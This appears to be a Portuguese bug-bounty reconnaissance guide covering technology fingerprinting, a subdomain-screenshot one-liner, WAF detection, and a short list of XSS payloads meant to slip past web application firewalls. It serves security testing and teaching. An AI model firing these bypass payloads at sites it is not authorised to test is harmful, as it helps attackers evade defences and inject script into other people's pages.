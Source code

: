 * <a href="https://github.com/MrEmpy/BugBountyTricks">Mais sobre o assunto</a>

# Tecnologias:

Extrair tecnologias de um alvo é essencial para conhecer o funcionamento de um determinado alvo, algumas dessas tecnologias tiveram falhas encontradas por pesquisadores de segurança, tanto críticas quanto de baixo nível. Precisamos conhecer as tecnologias do alvo para saber lidar com aquele cenário de exploração. Algumas ferramentas que uso são ```wappalyzer``` e ```whatweb```, guardo as informações para análise futura ao testar a segurança de um alvo.

# Captura de tela:

A captura de tela ajuda muito na hora de conhecer a casa de um alvo, principalmente quando há muitos hosts ativos, com ela consigo ter uma ideia do que cada servidor é utilizado e facilita ver o que fazer manualmente de host por host.
Nas capturas de tela eu procuro hosts com página de login, acesso negado (401/403), sites com mais aplicativos, isso aplica seu campo para selecionar um dos hosts para começar a procurar por vulnerabilidades.

```
$ assetfinder -subs-only scope.com | httpx -silent -o verified_subdomains.txt;cat verified_subdomains.txt | awk -F[/:] '{print $4}' | anew > subdomains.txt;rm verified_subdomains.txt;eyewitness -f subdomains.txt --prepend-https -d screenshots
```

# WAF:

Alguns servidores utilizam Web Application Firewall (WAF) para proteger seus sites contra ataques maliciosos como injeção de código, é importante identificá-los e saber como contorná-los. Eu uso ```wafw00f``` para identificar qual WAF está sendo usado em um determinado host. Para encontrar o endereço IP de um alvo eu costumo usar ```censys``` e ```viewdns```.

Alguma carga útil para contornar o WAF:

```
<sCrIpt>alert(1)</ScRipt>
<script x>
<script x>alert('XSS')<script y>
<img src='1' onerror='alert(0)' <
String.fromCharCode(88,83,83)
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
<script>window['alert'](document['domain'])</script>
"><svg/onload=confirm(1)>"@x.y
```

Algumas referências sobre como contornar um WAF:

* <a href="https://hacken.io/researches-and-investigations/how-to-bypass-waf-hackenproof-cheat-sheet/">Como ignorar o WAF - Folha de dicas</a>
* <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads">WAF de desvio XSS</a>
